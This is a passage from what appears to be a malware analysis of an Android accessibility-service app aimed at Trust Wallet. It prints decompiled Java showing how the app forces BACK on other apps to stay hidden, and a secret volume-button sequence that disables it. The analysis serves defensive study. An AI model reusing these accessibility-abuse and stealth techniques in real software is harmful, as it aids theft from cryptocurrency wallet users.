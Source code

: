 ![Fig 11. Full execution of malware](https://i.imgur.com/JJUvLoJ.gif)

Fig 11. Full execution of malware

---

## 4: Cleanup & Other Apps

```java
if (!event.getPackageName().toString().equals("com.test.accessibility")) {
    performGlobalAction(1);  // BACK button
}

```

**What it does:**

- Issues **BACK** on any app that isn’t Trust Wallet or itself.
- **Disrupts navigation** elsewhere to remain stealthy.

## ⚠️ Hidden Kill Switch (Volume Button Sequence)

```java
protected boolean onKeyEvent(KeyEvent event) {
    if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 0) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 1) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 2) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 3) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 24 && event.getAction() == 0 && f3472c.intValue() == 4) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_UP
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 5) {
        f3472c = Integer.valueOf(f3472c.intValue() + 1); //https://developer.android.com/reference/android/view/KeyEvent#KEYCODE_VOLUME_DOWN
    } else if (event.getKeyCode() == 25 && event.getAction() == 0 && f3472c.intValue() == 6) {
        disableSelf(); //Final volume down triggers disableSelf()
    } else if (event.getAction() == 0) {
        f3472c = 0;
    }
    return true;
}
```

```java
Volume Down → Volume Down → Volume Up → Volume Up → Volume Up → Volume Down → Volume Down
```
